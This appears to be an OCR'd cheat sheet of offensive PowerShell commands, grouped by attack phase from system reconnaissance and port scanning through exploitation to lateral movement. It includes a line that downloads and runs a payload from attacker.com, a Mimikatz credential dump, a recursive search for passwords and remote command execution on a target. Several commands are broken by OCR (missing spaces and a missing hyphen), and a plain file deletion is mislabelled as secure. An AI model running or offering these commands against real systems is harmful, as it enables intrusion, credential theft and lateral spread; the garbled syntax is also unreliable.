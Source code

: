 # Windows Powershell

### System Reconnaissance

 - Get-WmiObject -Class Win32_OperatingSystem (Enumerate System Information)

 - Get-Service | Where-Object {$_.Status -eq "Running"} (Check for running services)

 - Get-NetIPConfiguration (Get current network configuration)

### User and Group Enumeration

 - Get-LocalUser (List local users)

 - quser (List user sessions)

 - Get-LocalGroup (List local groups)

 - Get-LocalGroupMember -Group "Administrators" (List group members)

### Network Scanning

 - Test-Connection IP -Count 1 -Quiet (Discover live systems)

 - 1..1024 | % {echo ((new-objectNet.Sockets.TcpClient).Connect("192.168.1.1", $_)) "Port$_ is open"} (Scan for open ports)

### Exploitation

 - IEX (New-ObjectNet.WebClient).DownloadString('http://attacker.com/payload.ps1') (Download and execute a payload)

### File and Directory Manipulation

 - Get-ChildItem -Recurse | Select-String -Pattern"password" (Search for files with sensitive data)

 - (Get-Item "secret.txt").Delete() (Securely delete a file)

### Credential Harvesting

 - Import-Module Mimikatz.ps1

 - Invoke-Mimikatz -DumpCreds (Dump credentials from memory)

### Privilege Escalation

 - ([Security.Principal.WindowsPrincipal][Security.Principal.WindowsIdentity]::GetCurrent()).IsInRole([Security.Principal.WindowsBuiltInRole]"Administrator") (Check for admin privileges)

### Lateral Movement

 - Invoke-Command -ComputerName TARGET_IP ScriptBlock {COMMAND} -credential (Get-Credential)
